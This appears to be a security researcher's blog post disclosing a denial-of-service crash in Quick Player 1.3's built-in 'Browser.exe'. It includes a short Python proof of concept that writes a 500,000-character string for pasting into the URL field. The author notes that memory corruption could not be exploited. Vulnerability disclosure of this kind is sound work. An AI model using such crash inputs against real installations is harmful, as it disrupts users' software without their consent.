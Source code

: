 ```yaml
---
layout: post
title: Quick Player 1.3 - "Browser.exe" Denial of Service
date: 2020-03-26 14:45:00
categories: posts
comments: false
en: true
---
```


# The Bug

Quick Player suffers a Denial of Service within a sub application, which purpose is to act as a web browser. If a length string is parsed through the url parameter, the application will crash.
Although it is possible to cause a crash, i was not able to exploit the application through a memory corruption vulnerability, as it is compressed, and it would crash the debugger as well.

PoC code:

```term
buffer = "A" * 500000

f = open ("poc.txt", "w")

f.write(buffer)

f.close()
```

In order to exploit the application, open "Browser.exe" and insert the generated string by the script:

![](/assets/img/Findings7/1.png)

# Proof

![](/assets/img/Findings7/2.gif)
